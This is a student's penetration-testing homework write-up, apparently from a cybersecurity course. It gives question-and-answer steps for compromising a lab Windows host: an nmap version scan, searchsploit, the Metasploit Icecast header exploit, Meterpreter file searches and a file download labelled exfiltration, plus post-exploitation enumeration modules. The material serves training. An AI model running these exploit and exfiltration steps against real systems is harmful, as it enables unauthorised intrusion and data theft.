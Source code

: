 #**Brian C Williams**# 

#**17-Penetration II Homework**#


You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

**Answer: nmap -sV 192.168.0.20**

![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)


From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast windows

[image of q2]()


Now that we know which exploits are available to us, let's start Metasploit:



Run the command that starts Metasploit:

Answer: msfconsole -u
		msfconsole 

Search for the Icecast module and load it for use.

image

Run the command to search for the Icecast module:

Answer: search icecast

image

Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use exploit/windows/http/icecast_header
		use 0




Set the RHOST to the target machine.


Run the command that sets the RHOST:

Answer: set RHOST 192.168.0.20





Run the Icecast exploit.


Run the command that runs the Icecast exploit.

Answer: run or exploit



Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f  *secretfile.txt


You should now have a Meterpreter session open.


Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe.txt



Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt



You can also use Meterpreter's local exploit suggester to find possible exploits.

run post/multi/recon/local_exploit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

		
		

B. Open a Meterpreter shell and gather system information for the target.

Answer: shell 
		systeminfo
		
		

C. Run the command that displays the target's computer system information:

Answer: sysinfo

